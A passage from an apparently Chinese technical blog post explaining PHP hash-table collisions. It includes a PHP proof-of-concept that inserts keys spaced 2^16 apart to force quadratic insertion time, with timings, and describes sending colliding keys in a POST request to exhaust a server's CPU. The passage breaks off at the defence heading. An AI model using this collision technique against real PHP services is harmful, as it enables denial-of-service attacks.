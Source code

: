 其中zend_hash_index_find用于查找整数key的情况，zend_hash_find用于查找字符串key。逻辑基本一致，只是字符串key会通过zend_inline_hash_func转为整数key，zend_inline_hash_func封装了times33算法，具体代码就不贴出了。
## 攻击

知道了PHP内部哈希表的算法，就可以利用其原理构造用于攻击的数据。一种最简单的方法是利用掩码规律制造碰撞。上文提到Zend HashTable的长度nTableSize会被圆整为2的整数次幂，假设我们构造一个2^16的哈希表，则nTableSize的二进制表示为：1 0000 0000 0000 0000，而nTableMask = nTableSize – 1为：0 1111 1111 1111 1111。接下来，可以以0为初始值，以2^16为步长，制造足够多的数据，可以得到如下推测：

    0000 0000 0000 0000 0000 & 0 1111 1111 1111 1111 = 0

    0001 0000 0000 0000 0000 & 0 1111 1111 1111 1111 = 0

    0010 0000 0000 0000 0000 & 0 1111 1111 1111 1111 = 0

    0011 0000 0000 0000 0000 & 0 1111 1111 1111 1111 = 0

    0100 0000 0000 0000 0000 & 0 1111 1111 1111 1111 = 0

    ……

概况来说只要保证后16位均为0，则与掩码位于后得到的哈希值全部碰撞在位置0。下面是利用这个原理写的一段攻击代码：

    <?php
    $size = pow(2, 16);
    $startTime = microtime(true);

    $array = array();
    for ($key = 0, $maxKey = ($size - 1) * $size; $key <= $maxKey; $key += $size) {
        $array[$key] = 0;
    }

    $endTime = microtime(true);
    echo $endTime - $startTime, ' seconds', "\n";
    ?>

这段代码在我的VPS上（单CPU，512M内存）上用了近88秒才完成，并且在此期间CPU资源几乎被用尽。

而普通的同样大小的哈希表插入仅用时0.036秒：

    <?php
    $size = pow(2, 16);
    $startTime = microtime(true);

    $array = array();
    for ($key = 0, $maxKey = ($size - 1) * $size; $key <= $size; $key += 1) {
        $array[$key] = 0;
    }

    $endTime = microtime(true);
    echo $endTime - $startTime, ' seconds', "\n";
    ?>

可以证明第二段代码插入N个元素的时间在O(N)水平，而第一段攻击代码则需O(N^2)的时间去插入N个元素。

当然，一般情况下很难遇到攻击者可以直接修改PHP代码的情况，但是攻击者仍可以通过一些方法间接构造哈希表来进行攻击。例如PHP会将接收到的HTTP POST请求中的数据构造为$_POST，而这是一个Array，内部就是通过Zend HashTable表示，因此攻击者只要构造一个含有大量碰撞key的post请求，就可以达到攻击的目的。具体做法不再演示。
## 防御

